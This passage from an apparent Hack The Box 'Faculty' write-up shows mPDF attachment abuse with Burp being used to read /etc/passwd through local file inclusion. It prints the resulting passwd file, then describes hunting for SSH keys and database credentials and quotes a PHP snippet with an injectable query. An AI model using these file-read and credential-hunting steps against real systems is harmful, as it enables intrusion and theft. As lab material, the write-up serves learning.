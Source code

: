 Send the base64 payload with Burp to create a new pdf.
![[/assets/images/htb-writeup-faculty/faculty07.png]]

Add the filename to the base URL `http://faculty.htb/mpdf/tmp/` do see the PDF.
In the left corner you'll see a green dot indicator on the sidebar, press it got to "Show Attachments" and download the file `passwd`.
![[/assets/images/htb-writeup-faculty/faculty08.png]]

```bash
➜  faculty cat passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

We got LFI! 

### Step 3
Lets see if we can find any sensitive files; `id_rsa` would be optimal but we aren't able to access either `gbyolo` or `developer`'s.
We can start to look for any files containing the database connection and hopefully be able to extract credentials from there. 
Start by grabbing `manage_user.php` that we found earlier, and the very top gives us the database connection file; `db_connect.php`.
```php
<?php 
include('db_connect.php');
session_start();
if(isset($_GET['id'])){
$user = $conn->query("SELECT * FROM users where id =".mysql_real_escape_string($_GET['id']));
```